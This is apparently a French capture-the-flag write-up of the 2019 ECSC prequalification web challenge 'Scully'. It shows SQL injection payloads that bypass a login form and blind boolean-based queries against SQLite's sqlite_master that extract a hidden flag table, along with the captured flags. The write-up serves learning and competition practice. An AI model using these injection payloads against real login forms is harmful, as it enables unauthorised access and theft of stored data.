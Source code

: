 ```yaml
---
title: "WEB.SCULLY"
ctf: "ECSC préqualifications"
annee: "2019"
published: true
author: "Bdenneu"
---
```


# Enoncé
```
Notre développeur web n'est pas très doué en matière de sécurité... 
saurez-vous afficher le flag afin que nous puissions lui montrer qu'il 
faut faire des efforts ?
Le challenge est disponible à l'adresse http://challenges.ecsc-teamfrance.fr:8003
Aucun bruteforce n'est nécessaire
```

# Epreuve 1

Nous avons accès à une page qui nous demande un Nom d'utilisateur et un Mot de passe.
Le titre nous invite à tester les sql injections.
On obtient directement le flag en testant : **' or 1 --**

![Scully1](/assets/images/Préquals_ECSC/scully1.png)

# Le flag
ECSC{889b71de2017ca8074f49d3f853950e147591b38}

# Epreuve 2

Nous avons accès à la même platforme. Cependant, le but n'est plus de se connecter. On remarque facilement que l'on peut toujours se conencter en utilisant: **' or (1=1) --** . Nous sommes donc devant une *blind boolean based sql injection*. On peut considerer la condition vraie si *Successful Login* apparait à l'écran.
En testant, on remarque que nous avons affaire à du SQLite.
On récupére les tables et les colonnes avec les commandes:
**' or ((SELECT sql FROM sqlite_master WHERE type='table' limit 0,1) like '%')--**
Nous avons donc les tables:
*players*
*flag*
Il ne reste plus qu'à retrouver le flag:
**' or ((SELECT * FROM flag) like '%')--**
On arrive finalement à :
**' or ((SELECT * FROM flag) like 'ECSC{3f65e0e1d453f6c8a79a90131aef13326a9a0bea}')--**

# Le flag
ECSC{3f65e0e1d453f6c8a79a90131aef13326a9a0bea}
